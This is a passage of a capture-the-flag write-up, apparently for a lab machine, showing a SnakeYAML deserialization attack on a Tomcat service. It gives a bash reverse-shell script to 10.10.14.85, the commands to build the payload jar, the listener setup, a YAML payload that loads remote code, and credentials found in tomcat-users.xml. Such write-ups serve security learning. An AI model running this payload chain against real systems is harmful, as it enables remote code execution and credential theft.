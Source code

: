```java
        } catch (IOException e) {
            e.printStackTrace();
        }
    }


```

The file shell.sh
```bash
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/10.10.14.85/8080 0>&1'

```

and compiled

>javac src/artsploit/AwesomeScriptEngineFactory.java
>jar -cvf yaml-payload.jar -C src/ .


I opened a web server at port 80
>python3 -m http.server 80

a revshell at port 8080
>nc -lvp 8080

and on yaml parser inserted

```java
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.10.14.85/yaml-payload.jar"]
  ]]
]
```

and got revshell as `tomcat`

<img src="./img/revshell.png"  width="650"/>


# User
I checked in `/opt/tomcat/tomcat-users.xml` and i found the credential for the user `admin`

<img src="./img/cred.png"  width="650"/>

